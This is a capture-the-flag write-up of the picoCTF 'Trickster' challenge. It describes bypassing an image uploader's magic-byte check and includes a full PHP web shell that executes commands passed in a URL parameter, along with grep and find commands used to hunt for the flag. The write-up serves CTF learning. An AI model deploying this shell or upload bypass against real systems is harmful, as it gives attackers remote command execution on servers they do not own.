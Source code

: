 # Trickster

Category: Web Exploitation  
Difficulty: Medium

## Objective

I found a web app that can help process images: PNG images only! Try it.

## Steps

This website claims to only accept PNG files. Uploading a non-PNG file with a modified .png extension causes an error like the following, where a hex code is generated - this appears to be the hex string of the first characters of the uploaded file.

![error](not_valid_error.png)

The error message implies the web app only checks for the first 4 bytes of the signature. I thought that the attack vector may be the fact that it can accept polyglot files, files valid in multiple formats. I tried creating a test payload and combining it with a PNG, creating a valid PNG file with extra content at the end. This file did in fact pass the PNG check.

![polyglot file validated](validated.png)

However, it was unclear what to do from here. At this point I felt like I may have been on the wrong track and should take a step back and see if I can learn more about this website.

I checked to see if this site had a `robots.txt`, which is a text file used by website owners to give instructions about their site to search engine crawlers.

![robots.txt](robots.png)

This tells us that there is an `instructions.txt` file as well as an `/uploads/` endpoint.

![instructions.txt](instructions.png)

The instructions confirms my suspicions - it checks for the signature bytes of the file to verify it matches "PNG" (`50 4E 47`), then stores it, presumably in `/uploads/`.

Now, knowing that we can upload something as long as it starts with the magic bytes, and then access it at the endpoint, we can try uploading a web shell. I copied this web shell PHP script and added "PNG" to the beginning:

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

I renamed the file to `shell.png.php` and uploaded it into the web app. It was accepted as a valid file. Now, going to `/uploads/shell.png.php` brings up a command line:

![web shell command line](command_line.png)

I tried grep'ing for "picoCTF" from the root directory, but got a lot of permission denied errors.

`grep -r "picoCTF" /`
![permission errors](permission_denied.png)

I tried to redirect the standard error (stderr) to /dev/null, but the redirection did not work. Running the command as sudo is also not an option.

Since searching within file contents (including binary files) is producing too many errors, perhaps the find command would work better as it would skip binary files.

I tried running `find / -type f -exec grep -H "picoCTF" {} \;`, which may have been too computationally intensive and did not return a result.

Finally, I decided to try searching within text file types only, as that would be one of the most likely file types for storing the flag. Indeed, the flag was in a text file!

`find / -type f -name "*.txt" -exec grep -H "picoCTF" {} \;`
![flag](flag.png)
